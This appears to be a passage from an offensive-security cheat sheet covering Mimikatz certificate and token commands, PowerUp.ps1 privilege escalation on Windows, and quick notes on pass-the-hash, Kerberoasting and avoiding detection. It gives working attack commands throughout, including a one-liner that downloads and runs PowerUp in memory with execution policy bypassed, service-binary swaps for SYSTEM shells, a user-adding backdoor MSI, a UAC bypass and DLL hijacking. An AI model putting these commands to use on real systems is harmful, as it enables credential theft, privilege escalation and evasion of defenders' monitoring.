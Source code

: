 ### Certificates & Smartcards
- `crypto::certificates /export` – Export installed certificates (search for client auth certs).
- `crypto::capi` – Enumerate CAPI keys and providers.
- `crypto::cng` – List CNG keys.
- `token::elevate /domainadmin` – Leverage smartcard/PKI tokens when present.

### Cleanup
- `sekurlsa::minidump` – Switch LSASS target back to live memory after using minidumps.
- `privilege::debug /restore` – Drop debug privilege when done.
- `exit` – Close Mimikatz cleanly.

---

## PowerUp.ps1 Quick Wins

PowerUp (PowerSploit) remains a fast way to escalate Windows access after landing on a host. Pull it in over HTTP/SMB or drop a local copy, then let it enumerate and weaponize common misconfigurations for you.

- Load the module in-memory or offline:  
  `powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`  
  `powershell -ep bypass -c ". .\\PowerUp.ps1; Invoke-AllChecks"` (execute from a local copy)
- Core enumeration aliases:  
  `Invoke-AllChecks` (alias of `Invoke-PrivescAudit`) runs every check and prints exploitation hints.  
  `Get-UnquotedService`, `Get-ModifiableServiceFile`, `Get-ModifiableService` spotlight service-based privilege-escalation.  
  `Get-ModifiableScheduledTaskFile`, `Get-ModifiableRegistryAutoRun` surface writable scheduled tasks and autoruns.  
  `Get-RegistryAlwaysInstallElevated`, `Get-RegistryAutoLogon` alert on MSI/UAC misconfigs and stored logons.  
  `Get-UnattendedInstallFile`, `Get-WebConfig`, `Get-ApplicationHost`, `Get-SiteListPassword`, `Get-CachedGPPPassword` hunt for clear-text credentials across the file system.
- Built-in exploitation helpers:  
  `Invoke-ServiceAbuse -ServiceName <svc> -Command "cmd.exe /c <payload>"` swaps binaries and restarts services for quick SYSTEM shells.  
  `Write-ServiceBinary -ServiceName <svc> -Path C:\Temp\payload.exe` and `Restore-ServiceBinary` manage replacements cleanly.  
  `Write-UserAddMSI -Output C:\Temp\backdoor.msi` weaponizes AlwaysInstallElevated with a user-creation MSI.  
  `Invoke-EventVwrBypass -Command "cmd.exe /c <payload>"` delivers a ready-made UAC bypass.  
  `Find-ProcessDLLHijack`, `Find-PathDLLHijack`, and `Write-HijackDll` chain DLL hijacks when writable directories are discovered.

---

### Quick Reference Notes
- When only an NT hash is available, prepend the empty LM hash (`aad3b435b51404eeaad3b435b51404ee:`) to satisfy tools that expect both halves.
- Combine NetExec with `-o KERBEROAST` or Impacket’s `GetNPUsers.py` to harvest additional hashes before pivoting.
- For noisy environments, throttle NetExec with `--rate` and Impacket with `--port` adjustments to avoid detection.
